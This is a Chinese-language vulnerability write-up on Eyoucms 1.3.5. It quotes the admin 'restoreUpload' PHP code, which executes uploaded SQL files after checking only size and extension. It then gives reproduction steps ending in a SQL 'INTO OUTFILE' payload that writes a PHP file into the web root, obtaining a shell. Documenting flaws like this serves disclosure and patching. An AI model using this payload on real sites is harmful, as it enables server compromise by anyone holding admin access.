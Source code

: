 # Eyoucms 1.3.5 后台getshell

### 一、漏洞简介

最新版本删除该功能

### 二、漏洞影响

Eyoucms 1.3.5

### 三、复现过程

**漏洞分析**

相关功能代码在application/admin/controller/Tools.php


```php
public function restoreUpload()
 {
     $file = request()->file('sqlfile');
     if(empty($file)){
         $this->error('请上传sql文件');
     }
     // 移动到框架应用根目录/data/sqldata/ 目录下
     $path = tpCache('global.web_sqldatapath');
     $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
     $path = trim($path, '/');
     $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
     $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
     if ($info) {
         //上传成功 获取上传文件信息
         $file_path_full = $info->getPathName();
         if (file_exists($file_path_full)) {
             $sqls = Backup::parseSql($file_path_full);
             if(Backup::install($sqls)){
                //array_map("unlink", glob($path));
                 /*清除缓存*/
                 delFile(RUNTIME_PATH);
                 /*--end*/
                 $this->success("执行sql成功", url('Tools/restore'));
             }else{
                 $this->error('执行sql失败');
             }
         } else {
             $this->error('sql文件上传失败');
         }
     } else {
         //上传错误提示错误信息
         $this->error($file->getError());
     }
 }
```

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

**漏洞复现**

登陆后台在高级选项->备份还原->数据还原可选择上传sql文件并执行

![](images/15890221371725.png)


上传sql文件内容为（需要知道网站绝对路径）


```sql
select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';
```

上传成功后在网站根目录生成webshell。

![](images/15890221580392.png)


